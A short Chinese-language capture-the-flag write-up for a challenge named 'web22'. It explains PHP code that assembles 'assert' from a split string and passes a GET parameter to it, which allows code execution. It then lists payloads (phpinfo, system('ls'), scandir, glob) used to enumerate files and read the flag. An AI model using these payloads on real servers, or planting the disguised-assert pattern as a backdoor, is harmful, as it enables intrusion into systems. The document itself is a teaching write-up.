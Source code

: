 # web22

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618658381493-image-20210118192123332.png)

题目描述:

![image-20210118192305288](D:\ebook\markdown\image/image-20210118192305288.png)

```php
$poc="a#s#s#e#r#t";
$poc_1=explode("#", $poc);
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];
$poc_2($_GET['s']);
```

经过变量$poc_1的分割还有变量$poc_2的拼接之后变量$poc_2的值是assert

这个函数是检查一个[断言](https://www.php.net/manual/zh/regexp.reference.assertions.php)是否为False

然后接受一个参数为s的GET请求

这里就牵扯到assert这个参数的漏洞了

代码执行的漏洞

assert会在检查指定的值并在结果为FALSE时采取一些行动，如果这个值时字符串，就会被assert当作php代码执行

![image-20210118200007585](D:\ebook\markdown\image/image-20210118200007585.png)![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618658410555-image-20210118202613175.png)

可以执行phpinfo()

本来phpinfo要执行完整的是phpinfo();

这里少了一个 **；**

assert判断是False

所以就直接执行了

之后就判断flag在某个文件里

所以可以去执行查看目录的php代码

```php
system('ls')
print_r(scandir('./'))
print_r(glob(*.*))
var_dump(scandir('./'))
print_r(glob(*.*))
```

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618658471432-image-20210118203416888.png)

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618658493997-image-20210118203431434.png)

这些都可以

得到flag的文件之后

因为是txt文件

所以可以直接查看

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618658510950-image-20210118203540127.png)